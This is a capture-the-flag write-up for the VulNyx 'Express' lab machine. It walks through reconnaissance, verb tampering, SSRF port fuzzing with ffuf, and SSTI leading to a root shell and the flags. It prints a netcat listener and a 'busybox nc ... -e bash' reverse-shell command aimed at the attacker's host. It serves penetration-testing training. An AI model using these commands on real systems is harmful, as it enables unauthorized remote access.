# CTF Penetration Testing

## Platform: VulNyx

### Machine: [Express](https://vulnyx.com/#express)

- Machine type:  Linux
- Machine difficulty: 🟨 Medium

#### Skills Learned

- **Crawling**
- **HTTP Verb Tampering**
- **Server-Side Request Forgery (SSRF)**
- **Server-Side Template Injection (SSTI)**

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.247.128  netmask 255.255.255.0  broadcast 192.168.247.255

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ fping 192.168.247.131

192.168.247.131 is alive

┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 192.168.247.131 -T5 

[SNIP]

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '192.168.247.131\texpress.nyx' | sudo tee -a /etc/hosts

192.168.247.131 express.nyx

┌──(nabla㉿kali)-[~]
└─$ whatweb http://192.168.247.131

http://192.168.247.131 [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[192.168.247.131], Title[Apache2 Debian Default Page: It works]

┌──(nabla㉿kali)-[~]
└─$ whatweb http://express.nyx

http://express.nyx [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[192.168.247.131], Script, Title[Express.nyx]
```




**Crawling**




```javascript
function getMusicList() {
  fetch('/api/music/list').then(response => response.json()).then(data => {
    console.log('Music genre list:', data);
  }).catch(
    error => {
      console.error('Error fetching the music list:', error);
    }
  );
}
function getMusicSongs() {
  fetch('/api/music/songs').then(response => response.json()).then(data => {
    console.log('List of songs:', data);
  }).catch(
    error => {
      console.error('Error fetching the list of songs:', error);
    }
  );
}
function getUsersWithKey() {
  fetch(`/api/users?key=${ secretKey }`).then(response => response.json()).then(data => {
    console.log('User list (with key):', data);
  }).catch(
    error => {
      console.error('Error fetching the user list:', error);
    }
  );
}
function checkUrlAvailability() {
  const data = {
    id: 1,
    url: 'http://example.com',
    token: '1234-1234-1234'
  };
  fetch(
    '/api/admin/availability',
    {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify(data)
    }
  ).then(response => response.json()).then(data => {
    console.log('URL status:', data);
  }).catch(
    error => {
      console.error('Error checking the URL availability:', error);
    }
  );
}
```




**HTTP Verb Tampering**



**Server-Side Request Forgery (SSRF)**





```
┌──(nabla㉿kali)-[~]
└─$ seq 1 10000 > ports.txt

┌──(nabla㉿kali)-[~]
└─$ ffuf -w ./ports.txt -u http://express.nyx/api/admin/availability -X POST -H "Content-Type: application/json" -d '{"id":18, "url":"http://127.0.0.1:FUZZ", "token":"4493-3179-0912-0597"}' -fw 36 

[SNIP]

80                      [Status: 200, Size: 11240, Words: 3439, Lines: 7, Duration: 4750ms]
22                      [Status: 200, Size: 176, Words: 16, Lines: 7, Duration: 5038ms]
5000                    [Status: 200, Size: 301, Words: 39, Lines: 7, Duration: 241ms]
9000                    [Status: 200, Size: 280, Words: 50, Lines: 7, Duration: 175ms]
```



```html
<form method="get" action="/username">
	<input type="text" name="name" placeholder="Enter your name">
	<input type="submit" value="Greet">
</form>
```



**Server-Side Template Injection (SSTI)**







```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...

[CONTINUE]
```

```shell
busybox nc 192.168.247.128 1337 -e bash
```



```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.131] 53990
```

```
whoami
root

ls -la /root
total 36
drwx------  5 root root 4096 Oct 22  2024 .
drwxr-xr-x 18 root root 4096 Feb 12  2024 ..
lrwxrwxrwx  1 root root    9 Oct 22  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Oct 21  2024 .cache
drwxr-xr-x  3 root root 4096 Feb 12  2024 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-r--------  1 root root   33 Oct 18  2024 r00t.txt
-rw-r--r--  1 root root   66 Oct 22  2024 .selected_editor
drwx------  2 root root 4096 Feb 12  2024 .ssh

cat /root/r00t.txt
17a0c*************************** 🚩

ls -la /home
total 16
drwxr-xr-x  4 root    root    4096 Oct 18  2024 .
drwxr-xr-x 18 root    root    4096 Feb 12  2024 ..
drwxr-xr-x  2 jesss   jesss   4096 Oct 22  2024 jesss
drwxr-xr-x  2 xerosec xerosec 4096 Oct 22  2024 xerosec

ls -la /home/jesss
total 24
drwxr-xr-x 2 jesss jesss 4096 Oct 22  2024 .
drwxr-xr-x 4 root  root  4096 Oct 18  2024 ..
lrwxrwxrwx 1 root  root     9 Oct 22  2024 .bash_history -> /dev/null
-rw-r--r-- 1 jesss jesss  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 jesss jesss 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 jesss jesss  807 Apr 23  2023 .profile
-r-------- 1 root  root    33 Oct 18  2024 user.txt

cat /home/jesss/user.txt
969da*************************** 🚩
```


---
---
